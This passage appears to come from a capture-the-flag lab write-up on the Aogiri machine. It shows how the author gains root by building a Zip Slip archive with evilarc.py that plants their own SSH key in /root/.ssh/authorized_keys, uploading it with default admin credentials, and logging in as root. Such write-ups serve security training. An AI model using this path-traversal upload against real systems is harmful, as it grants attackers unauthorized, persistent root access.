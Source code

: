 ### Unintended way to root on Aogiri container

Instead of using the SSH keys found in the backups directory I can use the Zip Slip vulnerability to upload my own SSH publicy key to the root directory's SSH folder.

```
# cp /root/.ssh/id_rsa.pub authorized_keys
# python evilarc.py -f root.zip -o unix -p "../../../../../../root/.ssh" authorized_keys
Creating root.zip containing ../../../../../../../../../../../../../../root/.ssh/authorized_keys
# curl -u admin:admin -F 'data=@root.zip' http://10.10.10.101:8080/upload
```

I can now log in as root:

```
# ssh 10.10.10.101
Last login: Tue May  7 00:06:28 2019 from 172.20.0.1
root@Aogiri:~# id
uid=0(root) gid=0(root) groups=0(root)
```